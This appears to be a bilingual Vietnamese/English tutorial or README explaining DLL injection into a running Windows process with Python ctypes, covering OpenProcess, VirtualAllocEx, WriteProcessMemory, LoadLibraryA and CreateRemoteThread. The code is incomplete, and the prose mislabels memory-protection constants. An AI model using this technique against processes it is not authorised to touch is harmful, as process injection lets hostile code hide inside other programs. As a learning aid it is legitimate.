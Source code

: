 # DLL INJECTION
### Các bước tiến hành DLL Injection - Steps to perform DLL Injection
   - Tấn công tiến trình - Attach to the process 
   - Phân bổ bộ nhớ chứa tiến trình - Allocate memory within the process
   - Chép đường dẫn DLL vào bộ nhớ tiến trình - Copy the DLL path into process memory    - Tạo luồng với tiến trình để thực thi DLL - Create a thread within the process to execute your DLL
### Danh sách API sử dụng - List APIs
- OpenProcess()
- VirtualAllocEx()
- WriteProcessMemory()
- LoadLibraryA()
- CreateRemoteThread(), NtCreateThreadEx, etc.
### Win32 API
- Tạo cách định nghĩa cho hàm muốn gọi 
We’ll create definitions for the functions we want to call.

```
kernel32 = ctypes.windll.kernel32

LPCTSTR = ctypes.c_char_p 
SIZE_T = ctypes.c_size_t

OpenProcess = kernel32.OpenProcess
OpenProcess.argtypes = (ctypes.wintypes.DWORD, ctypes.wintypes.BOOL, ctypes.wintypes.DWORD)
OpenProcess.restype = ctypes.wintypes.HANDLE

VirtualAllocEx = kernel32.VirtualAllocEx
VirtualAllocEx.argtypes = (ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, SIZE_T, ctypes.wintypes.DWORD, ctypes.wintypes.DWORD)
VirtualAllocEx.restype = ctypes.wintypes.LPVOID

WriteProcessMemory = kernel32.WriteProcessMemory
WriteProcessMemory.argtypes = (ctypes.wintypes.HANDLE, ctypes.wintypes.LPVOID, ctypes.wintypes.LPCVOID, SIZE_T, ctypes.POINTER(SIZE_T))
WriteProcessMemory.restype = ctypes.wintypes.BOOL

GetModuleHandle = kernel32.GetModuleHandleA
GetModuleHandle.argtypes = (LPCTSTR, )
GetModuleHandle.restype = ctypes.wintypes.HANDLE

GetProcAddress = kernel32.GetProcAddress
GetProcAddress.argtypes = (ctypes.wintypes.HANDLE, LPCTSTR)
GetProcAddress.restype = ctypes.wintypes.LPVOID

class _SECURITY_ATTRIBUTES(ctypes.Structure):
    _fields_ = [('nLength', ctypes.wintypes.DWORD),
                ('lpSecurityDescriptor', ctypes.wintypes.LPVOID),
                ('bInheritHandle', ctypes.wintypes.BOOL)]

SECURITY_ATTRIBUTES = _SECURITY_ATTRIBUTES
LPSECURITY_ATTRIBUTES = ctypes.POINTER(_SECURITY_ATTRIBUTES)
LPTHREAD_START_ROUTINE = ctypes.wintypes.LPVOID


CreateRemoteThread = kernel32.CreateRemoteThread
CreateRemoteThread.argtypes = (ctypes.wintypes.HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, ctypes.wintypes.LPVOID, ctypes.wintypes.DWORD, ctypes.wintypes.LPDWORD)
CreateRemoteThread.restype = ctypes.wintypes.HANDLE

MEM_COMMIT = 0x0001000
MEM_RESERVE = 0x00002000
PAGE_READWRITE = 0x04
EXECUTE_IMMEDIATELY = 0x0
PROCESS_ALL_ACCESS = (0x000F0000 | 0x00100000 | 0x00000FFF)
```
### OpenProcess()
- Sử dụng OpenProcess để trả về 1 handle để xử lí tiến trình chúng ta cần tương tác
We will use OpenProcess() to return a handle to the process so we can interact with it
```
handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)
```
- OpenProcess() có 3 tham số - OpenProcess() takes three arguments.
    - dwDesiredAccess - Đây là quyền truy cập vào tiến trình. Để sử dụng WriteProcessMemory, handle phải có quyền PROCESS_VM_WRITE và PROCESS_VM_OPERATION vào tiến trình.
 (This is the access rights to the process. In order to use WriteProcessMemory, the handle must have PROCESS_VM_WRITE and PROCESS_VM_OPERATION access to the process.)
    - bInheritHandle -Nếu giá trị này là TRUE, thì tiến trình được tạo bởi quá trình này cũng sẽ kế thừa handle. Chúng ta không cần điều này vì vậy chúng ta đặt nó thành FALSE. 
    (If this value is TRUE, then the process created by this process will also inherit the handle. We don’t need this so we set it to false.)
   - dwProcessID - Đây là id của tiến trình 
   This is the process id of the process to be opened.
### VirtualAllocEx()
- VirtualAllocEx() lấy dung lượng bộ nhớ để phân bổ làm một trong các tham số của nó.
```
memory = VirtualAllocEx(handle, False, len(dllname) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRIT
E)
```

- VirtualAllocEx() có 5  tham số - VirtualAllocEx()takes five arguments.
     - hProcess - Đây là handle tiến trình. Hàm này sẽ phân bổ bộ nhớ trong không gian địa chỉ ảo của tiến trình.
     This is the handle to the process. The function will allocate memory within the virtual address space of this process.
    - lpAddress - Đây là một con trỏ tới địa chỉ bắt đầu của vùng trang bạn muốn phân bổ. Nếu là NULL, hàm sẽ xác định vị trí cấp phát vùng.
    This is a pointer to the starting address of the region of pages you want to allocate. If this is NULL, the function will determine where to allocate the region.
    - dwSize - Đây là kích thước của vùng bộ nhớ để phân bổ, tính bằng byte. Chúng ta sẽ phân bổ không gian cho đường dẫn đầy đủ của DLL.
    This is the size of the region of memory to allocate, in bytes. We will allocate space for the full path of the DLL.
    - flAllocationType and flProtect - cho biết loại phân bổ và bảo vệ bộ nhớ, chúng ta dùng 0x3000 cho loại phân bổ sẽ gọi VirtualAllocEx với MEM_RESERVE và MEM_COMMIT. 0x40 chỉ ra rằng bộ nhớ có thể đọc và ghi được.
    This indicates the allocation type and memory protection. We will use 0x3000 for the allocation type which will call VirtualAllocEx with MEM_RESERVE and MEM_COMMIT. 0x40 indicates that the memory is readable and writable.
### WriteProcessMemory()
Chép đường dẫn DLL vào tiến trình. 
Now we will copy the DLL path into the process. We can use WriteProcessMemory to do so.
```
write = WriteProcessMemory(handle, memory, dllname, len(dllname) + 1, None)
```
### LoadLibraryA() và CreateRemoteThread() 
- Tới đây chúng ta có DLL đã viết vào tiến trình đích, chúng ta bắt đầu một luồng mới để thực thi file DLL
Now that we have our DLL written to the remote process, we can start a new thread to load our DLL. 
- Đầu tiên cần xác định vị trí của LoadLibrary(). Để làm được chúng ta cần GetProcAddress và GetModuleHandle.
First,we need to find the location of LoadLibrary(). To do so, we’ll use GetProcAddress and GetModuleHandle.
- GetProcAddress sẽ truy xuất địa chỉ của hàm hoặc biến đã xuất từ tệp DLL.
GetProcAddress will retrieve the address of an exported function or variable from a DLL. 
- GetModuleHandle sẽ truy xuất handle module tới module đã chỉ định 
GetModuleHandle to retrieve a module handle to a specified module.
```
load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")
```
- Chúng ta đã có địa chỉ load library. Việc cần làm tiếp theo là tạo một luồng tới DLL đã tải lên. 
We have the load library address now, all we need to do is to create a thread to execute the loaded DLL.

./dll_injec.py -p <PID> -f <PATH_TO_DLL>
